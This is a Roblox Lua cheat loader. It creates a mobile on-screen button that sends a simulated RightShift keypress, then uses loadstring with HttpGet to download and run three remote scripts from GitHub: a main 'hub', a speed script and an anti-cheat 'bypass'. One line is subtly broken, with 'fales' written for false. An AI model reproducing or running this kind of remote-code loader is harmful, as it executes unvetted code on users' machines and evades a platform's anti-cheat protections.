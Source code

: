 local IMAGE = "rbxassetid://2152636047"

local Positions = UDim2.new(0.822025776, 0, 0.0401606411, 0)

local Sizes = UDim2.new(0, 76, 0, 70)

local KINGHUBMOBILE = Instance.new("ScreenGui")

local _100x100 = Instance.new("Frame")

local ImageButton = Instance.new("ImageButton")

KINGHUBMOBILE.Name = "REBOUND MOBILE"

KINGHUBMOBILE.Parent = game:WaitForChild("CoreGui")

KINGHUBMOBILE.ZIndexBehavior = Enum.ZIndexBehavior.Sibling

_100x100.Name = "100x100"

_100x100.Parent = KINGHUBMOBILE

_100x100.BackgroundColor3 = Color3.fromRGB(255, 255, 255)

_100x100.Position = Positions

_100x100.Size = UDim2.new(0, 76, 0, 70)

ImageButton.Parent = _100x100

ImageButton.BackgroundColor3 = Color3.fromRGB(255, 255, 255)

ImageButton.Size = Sizes

ImageButton.Image = IMAGE

ImageButton.MouseButton1Down:connect(function()
	local vim = game:service("VirtualInputManager")	vim:SendKeyEvent(true, "RightShift", false, game)
	local vim = game:service("VirtualInputManager")
	vim:SendKeyEvent(fales, "RightShift", false, game)
end)
loadstring(game:HttpGet(("https://raw.githubusercontent.com/yieviro92creepy/Yedi5/main/Oo4"),true))()
loadstring(game:HttpGet('https://raw.githubusercontent.com/PrototypeRBLX/Speed-Script/main/README.md'))()
loadstring(game:HttpGet('https://raw.githubusercontent.com/finngameandglitch/bypass/main/bypass'))()
